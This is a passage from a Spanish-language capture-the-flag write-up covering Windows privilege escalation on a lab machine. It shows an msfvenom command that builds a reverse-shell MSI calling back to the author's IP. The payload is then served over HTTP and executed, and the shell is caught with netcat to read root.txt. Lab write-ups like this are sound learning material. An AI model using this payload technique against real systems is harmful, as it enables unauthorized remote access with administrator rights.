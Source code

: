 Está puesto en 1, que significa True, así que podemos generar un binario malicioso que envíe una shell a mi máquina como root con `msfvenom`.

```
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.137 LPORT=42069 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Ahora solo faltaría crear un servidor HTTP con python, descargarlo en la máquina y escuchar con netcat.

![imagen](https://user-images.githubusercontent.com/71317374/128576105-95b02d26-f3d1-4c3a-95d6-77064eff3e96.png)

Ahí recibimos la petición GET, ahora hay que ejecutarlo escribiendo el nombre del archivo y escuchar con nc por el puerto que hayas introducido en LPORT al crear el 
payload.

![imagen](https://user-images.githubusercontent.com/71317374/128576255-2cae797b-fb8b-4498-9e8c-dc5e1a843907.png)


Ahí estáaaaaa, ahora hay que dirigirse a C:\Users\Administrator\Desktop y leer root.txt con ``type root.txt``.

Ha sido una máquina bastante divertida, me ha gustado bastante la parte del user, pero no tanto la privesc. Hasta aquí la máquina, el siguiente sábado haré otro writeup(si soy capaz de hacer la máquina :p)

Y recuerda, aguante Metasploit ;)



